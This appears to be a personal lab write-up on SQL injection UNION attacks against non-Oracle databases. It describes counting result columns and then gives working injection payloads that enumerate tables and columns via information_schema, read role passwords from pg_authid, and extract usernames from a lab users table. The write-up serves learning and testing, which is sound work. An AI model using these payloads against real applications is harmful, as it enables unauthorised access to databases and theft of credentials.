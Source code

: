 # Non-Oracle databases listing contents
#DATABASEENUM 
#UNION 
#WRITEUP 

Follow the [[Methodology UNION attacks]]

## 1. Number of columns of result set

![[Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on non-Oracle databases/images/columns.png]]
There are two columns on the result set.

## 2. Columns that can hold string data

Both columns can hold string data.

![[string.png]]

## 3. Exploitation

### List tables

Select the `TABLE_NAME` column from `information_schema.tables`

![[Pasted image 20220521222233.png]]

The payload

```SQL
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```

Then inspect the columns on the interesting tables.

### Listing columns of interesting tables

Inspect the tables for keywords like `password`

```SQL
SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name = '$TABLE NAME$'
```
```SQL
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = '$TABLE NAME$'--
```


' UNION SELECT 'rolname' 'rolpassword', NULL FROM pg_authid--

'+UNION+SELECT+username_dyquix,NULL+FROM+users_reacks--

the table users_reacks has the info